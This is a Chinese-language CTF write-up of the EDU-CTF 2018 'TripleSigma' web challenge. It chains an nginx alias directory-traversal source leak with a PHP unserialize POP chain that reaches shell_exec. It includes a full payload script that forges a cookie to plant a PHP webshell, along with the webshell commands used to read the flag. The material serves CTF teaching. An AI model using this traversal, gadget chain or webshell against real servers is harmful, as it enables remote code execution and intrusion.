 ```yaml
---
uuid: 9aeb46bc-f86b-469a-beb3-fba8fcc43fbc
title: EDU-CTF 2018 - TripleSigma
tags:
  - writeup 
  - web
  - php
categories:
  - Capture The Flag
  - EDU-CTF 2018
series: EDU-CTF 2018
date: 2019-02-02 00:00:00
updated: 2019-02-02 00:00:00
---
```


這題包含很多知識，在做的時候查很多資料而收穫良多，從 nginx 漏洞到 PHP POP 都有。推薦大家先自己做做看！因為很有趣，從 22:00 解到 07:00 ...

<!--more-->

# [正文]

先觀察頁面有沒有漏洞，初步觀察後發現是用 nginx 架設，有 static 子目錄，推測有 nginx 路徑漏洞，網址輸入：`http://final.kaibro.tw:10004/static../`，成功拿到 source code。

{% note info %}
### Nginx 目錄穿越漏洞

常見於 Nginx 做 Reverse Proxy 的狀況，例如 config 設置 `location /files { alias /home/ }`
會因為 `/files` 沒有加上結尾 `/` ，而 `/home/` 有，所以 `/files../` 可以訪問上層目錄
{% endnote %}

{% codeblock lang:plain line_number:false %}
site
├── static
│   ├── ...
│   └── js
│       └── k.js
├── lib
│   ├── class_articlebody.php
│   ├── class_article.php
│   ├── class_avatar.php
│   ├── class_cookie.php
│   ├── class_debug.php
│   ├── class_filemanager.php
│   ├── class_oldfm.php
│   ├── class_user.php
│   ├── ...
├── avatar.php
├── blog.php
├── footer.php
├── header.php
├── index.php
├── joinus.php
├── login.php
├── logout.php
├── register.php
├── team.php
└── user.php
{% endcodeblock %}

`class_oldfm.php` 很坑，裡面滿滿的漏洞，但是沒有被引用 QQ，另外 `k.js` 的內容是 Konami Code ( ⇧⇧⇩⇩⇦⇨⇦⇨ⒷⒶ ) 的梗，輸入後會在 console 印奇怪的訊息

## Analysis

首先可以發現在 class_user.php 裡可以找到 username 和 password，先登入看看，可以發現 blog 頁面可以留言了。不知道能幹麻，先放著。先搜尋可能有漏洞的函式：

### file_get_contents 和 file_put_contents
1. 發現 OldFileManager 可以用，但是 trace 一下發現他根本沒有被 include..
2. 參數都不可控制，死路。

### unserialize
1. 發現在 `class_cookie.php` 的 `MyCookie::__construct()` 有 `unserialize()`，參數可以藉由 `$_cookie["e"]` 來控制
  {% codeblock class_cookie.php lang:php line_number:true first_line:7 %}
  $enc = $_COOKIE['e'];
  $dec = base64_decode(strrev($enc));
  $arr = explode("|", $dec); // 可以構造成 “1234|payload”
  {% endcodeblock %}

2. unserialize 後的 object 會 assign 給 `$this->article`
  {% codeblock class_cookie.php lang:php line_number:true first_line:23 %}
  if(count($arr) === 2) {
      $this->uid = $arr[0];
      $obj = unserialize($arr[1]);
      $this->article = $obj;
  }
  {% endcodeblock %}

3. 在 `blog.php` 發現它 `new MyCookie()` 後使用 `MyCookie::restore()`
  {% codeblock blog.php lang:php line_number:true first_line:64 %}
  if(isset($_COOKIE['e'])) {
      $myck = new MyCookie();
      $r = $myck->restore();
  } else {
      $r = NULL;
  }
  {% endcodeblock %}

4. 回到 `class_cookie.php` 查看，可以發現 `MyCookie::restore()` 回傳的就是可以控制的 `$this->article`，表示我們也能夠控制 `blog.php` 的 `$r`
  {% codeblock class_cookie.php lang:php line_number:true first_line:36 %}
  public function restore() {
      if($this->uid !== NULL && $this->article !== NULL)
          return $this->article; 
      else
          return NULL;
  }
  {% endcodeblock %}

5. 在 `blog.php` 裡面繼續往下發現 `$r` 會被丟進 `print_title($r)` 和 `print_content($r)`，這兩個都會 `echo $r->body->title`，找找看其他 class 有沒有好用的 `__toString` 可以用
  {% codeblock blog.php lang:php line_number:true first_line:99 %}
  function print_title($r) {
      if(isset($r)) {
          echo $r->body->title;
      }
  }

  function print_content($r) {
      if(isset($r)) {
          echo $r->body->content;
      }
  }
  {% endcodeblock %}

6. 不難發現只有 `class_debug.php` 的 `Debug::__toString()` 能夠使用，其他的都沒有在額外 call function，找找看其他 class 有沒有好用的 `save()` 可以用
  {% codeblock class_debug.php lang:php line_number:true first_line:12 %}
  function __toString() {
      $str = "[DEUBG]" . $msg;
      $this->fm->save(); 
      return $str;
  }
  {% endcodeblock %}

7. 在 `class_filemanager.php`, `class_article.php`, `class_user.php` 都有發現`save()`
  * `class_filemanager.php`, `class_article.php` 的 `save()`，雖然都有 `file_put_contents`，但參數都不可控，死路。
  * 剩下 `class_user.php` 的 `save()`，可以發現 `($this->func)($this->data)` 且 `$this->func` 和`$this->data` 都可以透過 `unserialize()` 的時候就控制到！
  {% codeblock class_user.php lang:php line_number:true first_line:41 %}
  public function save() {
      if(!isset($this->data))
          $this->data = User::getAllUser();

      if(preg_match("/^[a-z]/is", $this->func)) {
          if($this->func === "shell_exec") {
              ($this->func)("echo " . escapeshellarg($this->data) . " > /tmp/result");
          } 
      } else {
          ($this->func)($this->data);
      }
  }
  {% endcodeblock %}

8. 剩下如何 bypass `preg_match("/^[a-z]/is", $this->func)`，找了一些資料後後發現加入反斜線可以成功 bypass: `$func = '\shell_exec'`。

  {% note info %}
  ### PHP Global space
  在 PHP ( >= 5.3.0, 7) 中在名稱前加上前綴 `\` 表示該名稱是全局空間中的名稱，是合法的 syntax。
  {% endnote %}

9. 整個 POPchain：Article.body -> ArticleBody.content -> Debug.__toString() -> User.save()

## Create payload

1. 因為他是直接 `($this->func)($this->data)` 不會 echo 出來，所以必須想辦法找到可讀寫的地方，在 `class_article.php` 下發現 `/var/www/app/articles/` 這個路徑，看起來可讀寫，建立 webshell payload：`$data = 'echo \'<?=shell_exec($_GET[0]);?>\' >/var/www/app/articles/<name>.php'`

  {% codeblock payload.php lang:php line_number:true %}
  <?php
  include("lib/class_article.php");
  include("lib/class_articlebody.php");
  include("lib/class_cookie.php");
  include("lib/class_user.php");
  include("lib/class_debug.php");
  include("lib/class_filemanager.php");


  $title = "title";
  $content = new Debug("content");
  $content->fm = new User();
  $content->fm->func = "\shell_exec";
  $content->fm->data = "echo \'<?=shell_exec($_GET[0]);?>\' >/var/www/app/articles/VHJpcGxlIFNpZ21hIH.php";

  $article = new Article( $title, $content );
  $article->author = "article";

  echo strrev( base64_encode( "1234|" . serialize( $article ) ) );
  {% endcodeblock %}

## Get shell

1. 執行 `php payload.php` 後得到的 payload 丟進 `cookie[e]`，重整後到 webshell 的頁面。
  {% codeblock lang:shell line_number:false  %}
  $ php payload.php
  =0Xf913OiAHaw5CaFlmYxo1RJBjVul1ZR12Yoh2RJZnTIlEaxIjWw5kRJ ...
  {% endcodeblock %}

  {% codeblock Http request lang:plain line_number:false  %}
  http://final.kaibro.tw:10004/articles/VHJpcGxlIFNpZ21hIH.php
  GET 0=ls%20/                # 發現 _fl4g___yo, readflag
  GET 0=ls%20-al%20%2F        # 發現 _fl4g___yo 沒辦法 cat
  GET 0=/readflag             # 直接執行 readflag -> get flag
  {% endcodeblock %}

FLAG: `FLAG{b4d_ng1nx_4nd_l0000ng_p0p_cha1n}`

